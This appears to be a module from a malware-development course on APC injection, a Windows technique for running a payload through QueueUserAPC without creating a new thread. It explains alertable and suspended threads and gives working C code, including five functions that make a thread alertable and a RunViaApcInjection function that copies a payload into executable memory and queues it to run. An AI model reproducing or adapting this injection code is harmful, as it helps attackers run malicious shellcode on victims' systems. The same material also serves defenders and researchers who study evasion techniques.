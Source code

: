 # 4.7 APC Injection

### Introduction

This module introduces another way to run a payload without having to create a new thread. This technique is known as APC injection.

### What is APC?

[Asynchronous Procedure Calls](https://learn.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls) are a Windows operating system mechanism that enables programs to execute tasks asynchronously while continuing to run other tasks. APCs are implemented as kernel-mode routines that are executed in the context of a specific thread. Malware can leverage APCs to queue a payload and then have it execute when scheduled.

#### Alertable State

Not all threads can run a queued APC function, only threads in an _alertable state_ can do so. An alertable state thread is a thread that is in a wait state. When a thread enters an alertable state it is placed in a queue of alertable threads, allowing it to run queued APC functions.

### What is APC Injection?

To queue an APC function to a thread, the address of the APC function must be passed to the [QueueUserAPC](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc) WinAPI. According to Microsoft's documentation:

_An application queues an APC to a thread by calling the QueueUserAPC function. The calling thread specifies the address of an APC function in the call to QueueUserAPC._

The injected payload's address will be passed to `QueueUserAPC` in order to have it executed. Before doing so, a thread in the local process must be placed in an alertable state.

### QueueUserAPC

`QueueUserAPC` is shown below and it accepts 3 arguments:

- `pfnAPC` - The address of the APC function to be called.
    
- `hThread` - A handle to an alertable thread or suspended thread.
    
- `dwData` - If the APC function requires parameters, they can be passed here. This value will be `NULL` in this module's code.
    

```c
DWORD QueueUserAPC(
  [in] PAPCFUNC  pfnAPC,
  [in] HANDLE    hThread,
  [in] ULONG_PTR dwData
);
```

### Placing a Thread In An Alertable State

The thread that will be executing the queued function needs to be in an alertable state. This can be done by creating a thread and using one of the following WinAPIs:

- [SleepEx](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-sleepex)
    
- [MsgWaitForMultipleObjectsEx](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-msgwaitformultipleobjectsex)
    
- [WaitForSingleObjectEx](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobjectex)
    
- [WaitForMultipleObjectsEx](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitformultipleobjectsex)
    
- [SignalObjectAndWait](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-signalobjectandwait)
    

These functions are used for synchronizing threads and improving performance and responsiveness in applications, however in this case, passing a handle to a dummy event is sufficient. Passing the correct parameters to these functions is not necessary since simply using one of the functions is enough to place the thread in an alertable state.

To create a dummy event, the [CreateEvent](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-createeventw) WinAPI will be used. The newly created event object is a synchronization object that allows threads to communicate with each other by signaling and waiting for events. Since the output of `CreateEvent` is irrelevant, any valid event can be passed to the previously shown WinAPIs.

#### Using The Functions

Any of the following functions can be used as a sacrificial alertable thread to run the queued APC payload. See below for examples of how to use the functions to place the current thread in an alertable state.

**Using `SleepEx`**

```c
VOID AlertableFunction1() {
    // The 2nd parameter should be 'TRUE'
	SleepEx(INFINITE, TRUE);
}
```

**Using `WaitForSingleObjectEx`**

```c
VOID AlertableFunction2() {

	HANDLE hEvent = CreateEvent(NULL, NULL, NULL, NULL);
	if (hEvent) {
        // The 3rd parameter should be 'TRUE'
		WaitForSingleObjectEx(hEvent, INFINITE, TRUE);
		CloseHandle(hEvent);
	}
}
```

**Using `WaitForMultipleObjectsEx`**

```c
VOID AlertableFunction3() {

	HANDLE hEvent = CreateEvent(NULL, NULL, NULL, NULL);
	if (hEvent){
        // The 5th parameter should be 'TRUE'
		WaitForMultipleObjectsEx(1, &hEvent, TRUE, INFINITE, TRUE);
		CloseHandle(hEvent);
	}
}
```

**Using `MsgWaitForMultipleObjectsEx`**

```c
VOID AlertableFunction4() {

	HANDLE hEvent = CreateEvent(NULL, NULL, NULL, NULL);
	if (hEvent) {
        // The 5th parameter should be 'MWMO_ALERTABLE'
		MsgWaitForMultipleObjectsEx(1, &hEvent, INFINITE, QS_KEY, MWMO_ALERTABLE);
		CloseHandle(hEvent);
	}
}

```

**Using `SignalObjectAndWait`**

```c
VOID AlertableFunction5() {
	
	HANDLE hEvent1 = CreateEvent(NULL, NULL, NULL, NULL);
	HANDLE hEvent2 = CreateEvent(NULL, NULL, NULL, NULL);

	if (hEvent1 && hEvent2) {
        // The 4th parameter should be 'TRUE'
		SignalObjectAndWait(hEvent1, hEvent2, INFINITE, TRUE);
		CloseHandle(hEvent1);
		CloseHandle(hEvent2);
	}
}
```

### Suspended Threads

`QueueUserAPC` can also succeed if the target thread is created in a suspended state. If this method is used to execute the payload, `QueueUserAPC` should be called first and then the suspended thread should be resumed next. Again, the thread must be created in a suspended state, suspending an existing thread will not work.

The code shared in this module demonstrates APC injection via an alertable and suspended thread.

### APC Injection Implementation Logic

To summarize, the implementation logic will be as follows:

1. First, create a thread that runs one of the previously mentioned functions to place it in an alertable state.
    
2. Inject the payload into memory.
    
3. The thread handle and payload base address will be passed as input parameters to `QueueUserAPC`.
    

### APC Injection Function

`RunViaApcInjection` is a function that performs APC Injection and requires 3 arguments:

- `hThread` - A handle to an alertable or suspended thread.
    
- `pPayload` - A pointer to the payload's base address.
    
- `sPayloadSize` - The size of the payload.
    

```c
BOOL RunViaApcInjection(IN HANDLE hThread, IN PBYTE pPayload, IN SIZE_T sPayloadSize) {

	PVOID pAddress = NULL;
	DWORD dwOldProtection = NULL;

	
	pAddress = VirtualAlloc(NULL, sPayloadSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	if (pAddress == NULL) {
		printf("\t[!] VirtualAlloc Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	memcpy(pAddress, pPayload, sPayloadSize);
	

	if (!VirtualProtect(pAddress, sPayloadSize, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
		printf("\t[!] VirtualProtect Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// If hThread is in an alertable state, QueueUserAPC will run the payload directly
	// If hThread is in a suspended state, the payload won't be executed unless the thread is resumed after
	if (!QueueUserAPC((PAPCFUNC)pAddress, hThread, NULL)) {
		printf("\t[!] QueueUserAPC Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	return TRUE;
}
```

  

### Demo - APC Injection Using An Alertable Thread

![image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/apc-demo-1-109284381-1875d55b-1574-4421-b4e9-6f6948a5a316.png)

![image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/apc-demo-1-209284381-1875d55b-1574-4421-b4e9-6f6948a5a316.png)

  

### Demo - APC Injection Using a Suspended Thread

![image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/apc-demo-2-109284381-1875d55b-1574-4421-b4e9-6f6948a5a316.png)

![image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/apc-demo-2-209284381-1875d55b-1574-4421-b4e9-6f6948a5a316.png)